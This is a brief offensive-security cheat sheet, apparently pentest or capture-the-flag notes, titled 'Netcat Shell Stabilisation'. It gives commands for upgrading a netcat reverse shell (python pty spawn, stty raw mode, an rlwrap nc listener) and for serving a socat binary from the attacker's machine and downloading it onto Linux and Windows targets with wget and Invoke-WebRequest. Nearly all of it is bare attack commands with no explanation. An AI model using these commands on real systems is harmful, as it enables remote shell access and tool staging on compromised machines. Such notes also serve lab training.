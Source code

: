 Netcat Shell Stabilisation
	python -c 'import pty;pty.spawn("/bin/bash")'
	export TERM=xterm
	Cntrl + Z 
	stty raw -echo; fg
rlwrap
	rlwrap nc -lnvp <port>
		stty raw -echo; fg
Socat
	sudo python3 -m http.server 80
	wget <LOCAL-IP>/socat -O /tmp/socat
	Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe